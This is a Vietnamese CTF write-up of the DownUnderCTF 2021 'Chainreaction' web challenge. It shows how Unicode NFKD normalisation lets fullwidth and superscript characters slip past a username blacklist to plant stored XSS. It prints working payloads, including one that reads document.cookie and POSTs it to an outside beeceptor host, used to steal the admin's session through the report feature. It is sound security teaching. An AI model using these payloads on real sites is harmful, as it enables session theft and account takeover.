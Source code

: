 ```yaml
---
title: Chainreaction - DownUnderCTF 2021
author: HoangND
date: 2021-09-25 15:55:00 +0700
categories: [Writeups, DownUnderCTF 2021]
tags: [xss, web, unicode normalised]
---
```


## Recon

![image](https://user-images.githubusercontent.com/61985236/134768470-0e313bc6-67b4-487a-9542-1ebcc067b6ce.png)
_Trang chủ_

Trang chủ của Chainreaction không có gì đáng bận tâm, ngoại trừ việc ảnh không load được, nhưng hiện tại vẫn không biết lí do thôi bỏ qua. Có hai button đăng ký đăng nhập. 
Ở đây các form này không khai thác được SQLi. Quan sát một chút form đăng ký

![image](https://user-images.githubusercontent.com/61985236/134768675-1fec4bb8-fc48-4249-b28e-fa60a39efc4a.png)
_Trang đăng ký_

Username không được chứa các ký tự < và >. Vậy khả năng cao có thể bypass để khai thác lỗi XSS qua username. Cũng có một điều đặc biệt bên dưới form đăng nhập làm mình chú ý

![image](https://user-images.githubusercontent.com/61985236/134768537-778e468c-5013-4c07-968d-13b121315325.png)
_Trang đăng nhập_

vậy là có trang đăng nhập riêng cho deverloper, vào luôn xem có gì hay ho

![image](https://user-images.githubusercontent.com/61985236/134768551-75408121-ca67-4966-9463-d759f69f5a25.png){: style="max-width: 100%" } 
_Trang đăng nhập cho developer_

Hiểu sương sương nghĩa là nếu bạn có tài khoản thì có thể vào đường dẫn /devchat, đặc biệt hơn nếu có tài khoản admin thì có thể vào /admin. Hiện tại đương nhiên mình không thể vào trang admin được rồi, 
ngó devchat xem có gì

![image](https://user-images.githubusercontent.com/61985236/134768594-a9f1049f-714b-4279-84cf-5c907c803954.png)
_/devchat_

Vậy là có hẳn một trang public luôn đoạn chat nội bộ, đúng với mô tả của challenge 'Hệ thống được xây dựng bởi các sinh viên của trường đại học' 🤣🤣🤣. Đoạn chat có đề cập đến NFKD => NFKD normalised exploit. Tiếp theo tạo một tài khoản và đăng nhập, thì có thêm trang profile cho phép thay đổi thông tin cá nhân

![image](https://user-images.githubusercontent.com/61985236/134777616-375ddcc1-647c-47e6-848f-eb48744a8daa.png) 
_Trang thông tin tài khoản_

Ta thấy rằng username được hiển thị lên giao diện thông qua lời chào welcome, thử XSS ở đây xem thế nào.

![image](https://user-images.githubusercontent.com/61985236/134777639-266d3c3e-f3ed-4db0-8554-c2453e777a6f.png)

Như vậy hệ thống sử dụng blacklist để kiểm tra thông tin username. Như đã đề cập ở trên, đoạn chat có nhắc đến cái gọi là NFKD, vậy chính xác NFKD là gì và khai thác thế nào mình sẽ trình bày ngắn gọn dưới đây.

## Unicode Normalization vulnerability 

Normalization (chuẩn hóa) là quá trình thay đổi độ dài biểu diễn nhị phân đối với một ký tự cụ thể. Có hai kiểu tương đương giữa các ký tự là _Canonical Equivalence_ và _Compatibility Equivalence_ (mình không biết nên đưa về tiếng việt thế nào)
- Các ký tự tương đương theo kiểu Canonical Equivalence sẽ có cùng biểu diễn khi in hoặc hiển thị.
- Trong khi đó Compatibility Equivalence là kiểu tương đương mềm dẻo hơn khi biểu diễn của hai ký tự tương đương theo kiểu này có thể khác nhau.
Có 4 thuật toán chuẩn hóa được định nghĩa theo chuẩn Unicode: NFC, NFD, NFKD và __NFKD__, mỗi loại áp dụng kỹ thuật chuẩn hóa Canonical và Compatibility theo cách khác nhau. Bạn có thể đọc thêm về các kỹ thuật khác nhau tại Unicode.org.

Chuẩn hóa Compatibility mềm dẻo hơn do đó có thể bị hacker khai thác để vược qua blacklist. Ví dụ ký tự '⑧' sau khi được chuẩn hóa theo kỹ thuật Compatibility sẽ thành ký tự '8', như vậy hacker có thể dùng ký tự này để vượt qua blacklist chứa '8'.

Để hiểu rõ hơn về Unicode Normalization cũng như cách khai thác, bạn có thể tham khảo [tài liệu sau](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability).

## Solve challenge
Như vậy đã hiểu sơ qua về các khai thác NFKD normalization. Bắt tay vào exploit thôi, các ký tự đại diện mình sẽ cần để bypass blacklist sẽ là
- ＜(%ef%bc%9c) thay cho ký tự <
- ＞(%ef%bc%9e) thay cho ký tự >
- ⁱ (%e2%81%b1) thay cho ký tự i

Các ký tự tương đương bạn có thể tìm ở [tài liệu sau](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html).
Test thử script cơ bản, sử dụng beeceptor như một mockup server để validate. Trường mình sử dụng để XSS sẽ là username trong trang profile

```
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
</script>
```

Để bypass blacklist, mình sẽ thay thế các ký tự < > i bằng các ký tự tương đương ở trên (ký tự i để bypass chuỗi 'script'). Như vậy payload của mình sẽ là

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```
Kết quả gửi request

![image](https://user-images.githubusercontent.com/61985236/134780213-5a10d8ba-d9c7-4964-ac05-88acec404486.png)

Vậy là đã tạo được một node script để chèn javascript, bên beeceptor cũng đã nhận được request

![image](https://user-images.githubusercontent.com/61985236/134780248-c3e390d4-f033-4648-97c8-b909cb7d7b95.png)

Oke, đến đây để mạo danh admin, cần phải có được cookie đăng nhập của admin. How? Đầu tiên cần quay lại một chút trang chát chít của hội dev. Chính ông admin đã tiết lộ như sau

![image](https://user-images.githubusercontent.com/61985236/134780389-516004ed-1d2d-4b64-9d6b-8ca467f38ae5.png)

Do tính năng của trang admin chưa được hoàn thành, admin sẽ sử dụng 1 cookie tĩnh để xác thực, browser của admin chắc chắn còn lưu cookie này. Thế làm thế nào để admin mở profile tài khoản của mình để kích hoạt XSS gửi cookie về cho beeceptor? Câu trả lời nằm ở tính năng report ở trang profile

![image](https://user-images.githubusercontent.com/61985236/134780480-6e2a3b83-2fdc-4953-bad2-121450916e25.png)

Nghĩa là mình cứ ấn report là ông admin sẽ vào trang profile để check lỗi => XSS. Test nhanh kẻo nguội bằng payload sau

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var c = document.cookie;
  var xhr = new XMLHttpRequest();
  xhr.open("POST","https://hoangnd.free.beeceptor.com/exploit");
  xhr.send(c);
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```

![image](https://user-images.githubusercontent.com/61985236/134780741-24c0408b-9dce-4da6-a747-667e10a08d7b.png)
_Kết quả gửi request_

Tiếp theo là ấn report và quan sát bên beeceptor

![image](https://user-images.githubusercontent.com/61985236/134780783-21a99a0e-69dc-4e9e-bb5f-50cbeff2b536.png)

Vậy là đã lấy được cookie của admin, vào /admin lấy cờ thôi

![image](https://user-images.githubusercontent.com/61985236/134780811-72bcc33c-37a0-43c3-a85a-a9605df6b57f.png)

